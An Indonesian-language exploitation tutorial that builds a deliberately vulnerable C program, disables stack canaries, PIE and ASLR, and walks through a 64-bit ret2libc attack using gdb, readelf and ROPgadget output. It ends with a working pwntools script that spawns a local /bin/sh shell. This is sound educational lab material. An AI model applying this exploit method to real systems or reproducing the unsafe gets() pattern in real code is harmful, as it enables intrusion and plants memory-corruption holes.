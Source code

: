[x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NX ~ tanpa -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan NX 

```bash
gcc -g -m64 -no-pie -fno-stack-protector -o vuln64 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln64
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```bash
$ldd vuln64
linux-vdso.so.1 (0x00007ffff7fd3000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dfa000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7fd5000)
```

ditemukan lokasi basis libc di 0x7ffff7dfa000

```bash
$readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep system
   235: 00000000001294c0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   613: 00000000000449c0    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1418: 00000000000449c0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

ditemukan lokasi  system@@GLIBC_2.2.5 di 0x449c0

```bash
$strings -a -t x /lib/x86_64-linux-gnu/libc.so.6|grep /bin/sh
 180519 /bin/sh
```

ditemukan lokasi relatif /bin/sh 0x180519

```bash
$ROPgadget --binary vuln64 |grep "pop rdi"
0x00000000004011cb : pop rdi ; ret
```

ditemukan pop_rdi 0x4011cb

mencari padding (ukuran buffer overflow)

```bash
gdb-peda$ pattern create 100

'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/coba 
give me your input :)
  
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe4f0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7ffff7fb4a00 --> 0xfbad2288 
RDX: 0x7ffff7fb68d0 --> 0x0 
RSI: 0x405671 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7fffffffe4f1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe528 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x401159 (<foo+39>: ret)
R8 : 0x4056d5 --> 0x0 
R9 : 0x0 
R10: 0x405010 --> 0x0 
R11: 0x246 
R12: 0x401050 (<_start>: xor    ebp,ebp)
R13: 0x7fffffffe610 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401152 <foo+32>: call   0x401040 <gets@plt>
   0x401157 <foo+37>: nop
   0x401158 <foo+38>: leave  
=> 0x401159 <foo+39>: ret    
   0x40115a <main>: push   rbp
   0x40115b <main+1>: mov    rbp,rsp
   0x40115e <main+4>: mov    eax,0x0
   0x401163 <main+9>: call   0x401132 <foo>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe528 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffe530 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffe538 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffe540 ("AJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffe548 ("AAKAAgAA6AAL")
0040| 0x7fffffffe550 --> 0x4c414136 ('6AAL')
0048| 0x7fffffffe558 --> 0x40115a (<main>: push   rbp)
0056| 0x7fffffffe560 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401159 in foo () at coba.c:8
8 }
gdb-peda$ pattern offset 0x4147414131414162
4703800084066812258 found at offset: 48
```

paddingnya 48 bytes + 8 byte sampai diawal RIP = 56 bytes
penyusunan exploit sebagai berikut

```python
#ldd vuln64 0x7ffff7dfa000
#strings -a -t x /lib/x86_64-linux-gnu/libc.so.6|grep /bin/sh 0x180519 
#readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep system 0x0449c0
#pop_rdi 0x00000000004011cb

from pwn import *

p=process('./vuln64')
print(p.recv())

padding = b'A'*56
pop_rdi =p64(0x4011cb)
base_libc = 0x7ffff7dfa000
system = p64(base_libc+0x0449c0)
binsh = p64(base_libc+0x180519)

p.sendline(padding+pop_rdi+binsh+system)
print(p.clean())
p.interactive()
```

dijalankan

```bash
$python3 exploit-nx64.py 
[+] Starting local process './vuln64': pid 4549
b'give me your input :)\n'
b'\n'
[*] Switching to interactive mode
$
```

